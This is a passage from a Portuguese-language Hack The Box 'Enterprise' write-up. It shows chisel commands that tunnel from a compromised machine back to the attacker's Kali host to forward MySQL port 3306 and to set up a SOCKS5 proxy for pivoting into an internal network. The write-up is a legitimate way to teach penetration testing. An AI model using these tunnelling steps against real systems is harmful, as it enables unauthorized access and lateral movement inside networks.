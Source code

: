 Setamos o cliente e recebemos a conexão

./chisel client 10.10.14.40:8000 R:3306:172.17.0.2:3306

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_chi4.png)

Comprovando que recebemos a conexão na porta 3306

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_chi5.png)

Agora realizamos o login no banco de dados com as credenciais encontradas

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_chi6.png)

# Pivoting com Chisel (Socks Proxy 1º Modo)

Agora vamos demonstrar outro modo, ainda com o chisel em que a máquina invadida serve como um socks proxy

## Setamos nosso Server

./chisel server -p 8000 --reverse na nossa máquina local

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_proxy.png)

## Setando o Cliente

./chisel client 10.10.14.40:8000 R:8001:127.0.0.1:9001 - Nesse momento, tudo que for direcionado para a minha Kali porta 8001 vai ser mandado pra porta 9001 do alvo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_proxy1.png)

## Setando o Servidor no Cliente

./chisel server -p 9001 --socks5 - Com isso teremos setado um servidor chisel na máquina invadida escutando na porta 9001, em modo socks

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_socks2.png)

## Setando o Socks na Kali

./chisel client localhost:8001 socks - Com isso vamos se conectar a nossa porta 8001, que por sua vez está recebendo a conexão da porta 9001 invadida, que por sua vez está sendo setada como socks5...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_proxy2.png)

Pronto, a partir desse momento temos o socks proxy habilitado...

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-enterprise/E_proxy3.png)

# Pivoting com Chisel (Socks Proxy 2º Modo)
